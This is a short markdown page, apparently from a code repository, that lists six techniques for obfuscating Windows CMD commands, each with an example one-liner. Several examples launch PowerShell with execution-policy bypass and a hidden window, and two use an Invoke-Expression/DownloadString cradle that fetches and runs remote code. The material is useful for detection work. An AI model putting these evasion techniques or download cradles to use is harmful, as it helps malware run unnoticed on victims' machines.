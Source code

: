 # Obfuscating windows CMD

1. Inserting characters - insert special characters such as comma(,) and semicolon (;) between malicious commands and strings to make well-known commands more complex to detect

```
,;cmd.exe,/c,;,echo;powershell.exe -NoExit -exec bypass -nop Invoke-Expression(New-Object System.Net.WebClient).DownloadString(‘https://google.com”)&&echo,exit
```

2. Inverting Parantheses - When parentheses are used, variables in a code block are evaluated as a single line command. Attackers exploit this feature to split and obfuscate malicious commands
```
cmd.exe /c ((echo command1) &&( echo command2))
```

3. Inserting Caret symbol - The caret symbol (^) is a reserved character used in shell commands for escaping. Attackers exploit this feature to escape malicious commands during execution time
```
C:\WINDOWS\system32\cmd.exe /c p^^o^^w^^e^^r^^s^^h^^e^^l^^l^^.^^e^^x^^e -No^^Exit -exec bypass -nop Invoke-Expression (New-Object System.Net.WebClient). DownloadString((‘https://google.com”)&&echo,exit
```

4. Inserting double quotes - The command line parser uses the double quote symbol as an argument delimiter. Attackers use this symbol to concatenate malicious commands in arguments
```
Pow""er""Shell -N""oExit -ExecutionPolicy bypass -noprofile -windowstyle hidden cmd /c Img.jpg
```

5. Using custon environment vars - In the Windows operating system, environment variables are dynamic objects that store modifiable values used by applications at runtime. Attackers exploit environment variables to split malicious commands into multiple string
```
set a=Power &&set b=Shell && %a:~0,-1%%b% -ExecutionPolicy bypass -noprofile -windowstyle hidden cmd /c Doc.pdf
```

6. Using Pre-Assigned Enrironment Variables - “%CommonProgramFiles%” contains a default value “C:\Program Files\Common Files”. Specific characters from this value can be accessed through indexing and used to execute malicious commands
```
cmd.exe /c “%CommonProgramFiles:~3,1%owerShell.exe” -windowstyle hidden -command wscript script.vbc
```